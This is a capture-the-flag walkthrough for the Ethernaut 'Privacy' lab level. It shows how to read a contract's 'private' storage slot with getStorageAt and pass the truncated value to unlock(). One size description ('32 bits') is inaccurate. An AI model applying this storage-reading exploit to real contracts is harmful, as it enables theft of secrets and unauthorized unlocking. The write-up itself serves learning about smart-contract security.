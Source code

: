 ## Ethernaut 
### Privacy

While remembering that everything on the blockchain is public, we are able to retrieve storage areas of the contract in this case we want to see whats in storage for bytes32[3] private data.

```solidity
[slot]-[bytes]   
[0]-[01]        bool public locked = true;
[1]-[32]        uint256 public ID = block.timestamp;
[2]-[01]        uint8 private flattening = 10;
[2]-[01]        uint8 private denomination = 255;
[2]-[02]        uint16 private awkwardness = uint16(now);
                bytes32[3] private data;
[3]-[32]            data[0]
[4]-[32]            data[1]
[5]-[32]            data[2]       
```

We see ther unlock key is stored in data[2] which will be the final index of the data array with length 3, remembering the first index of an array is [0].

In the console:
- web3.eth.getStorageAt(instance, 5);
0x4ecee92a0bb65104cf270adbf7d2440c13027da2293652b7dd068fa0ad5ed453

The resultant bytes32 of hex needs to be converted to bytes16 to be accepted as _key for unlock(), we can use remix to output bytes16(0x4ecee92a0bb65104cf270adbf7d2440c13027da2293652b7dd068fa0ad5ed453), but a quicker way is to keep the first 32 bits of hex 0x4ecee92a0bb65104cf270adbf7d2440c.

All thats required now is to call unlock() in the console:
- contract.unlock('0x4ecee92a0bb65104cf270adbf7d2440c')

The contract is now unlocked, click the "Submit Instance" button and approve that transaction to complete the level.

✌(◕‿-)✌ Well done, You have completed this level!!!